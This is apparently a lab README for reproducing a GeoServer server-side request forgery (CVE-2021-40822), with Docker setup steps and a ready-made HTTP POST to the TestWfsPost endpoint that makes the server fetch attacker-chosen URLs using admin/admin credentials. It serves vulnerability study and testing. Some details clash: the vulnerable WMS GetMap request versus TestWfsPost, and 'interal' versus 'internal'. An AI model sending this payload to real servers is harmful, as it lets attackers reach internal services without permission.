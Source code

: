 # GeoServer Unauthenticated Server-Side Request Forgery (CVE-2021-40822)

[中文版本(Chinese version)](README.zh-cn.md)

GeoServer is an open-source software server written in Java that provides the ability to view, edit, and share geospatial data. It is designed to be a flexible, efficient solution for distributing geospatial data from a variety of sources such as Geographic Information System (GIS) databases, web-based data, and personal datasets.

In GeoServer versions prior to 2.19.3, 2.18.5, and 2.17.6, there is a Server-Side Request Forgery (SSRF) vulnerability in the WMS GetMap request. An attacker can exploit this vulnerability to make requests to internal or external services through the GeoServer server.

References:

- <https://github.com/geoserver/geoserver/security/advisories/GHSA-7g5f-wrx8-5ccf>
- <https://nvd.nist.gov/vuln/detail/CVE-2021-40822>

## Vulnerable Environment

Execute the following command to start a GeoServer 2.19.1 server:

```
docker compose up -d
```

After the server is started, you can browse the default page of GeoServer at `http://your-ip:8080/geoserver`.

## Exploit

The vulnerability exists in the `TestWfsPost` endpoint. An attacker can use the `url` parameter to make the server send requests to arbitrary URLs. The endpoint accepts several parameters:

- `url`: The target URL that GeoServer will send request to
- `body`: The request body to be sent. If this parameter is empty, GeoServer will send a GET request; if it contains any value, GeoServer will send a POST request
- `username`: Username for basic authentication (optional)
- `password`: Password for basic authentication (optional)

Send the following request to the `TestWfsPost` endpoint:

```
POST /geoserver/TestWfsPost HTTP/1.1
Host: internal
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 96

form_hf_0=&url=http://interal/geoserver/../&body=testtest&username=admin&password=admin
```

Use `google.com` as the target URL, and you will see that response from `google.com` is returned.

![](1.png)

> Note: The host in the `url` parameter must match the `Host` header in your request, otherwise GeoServer will return an error. For example, if the domain in `url` parameter is `internal`, then the `Host` header should also be `internal`.

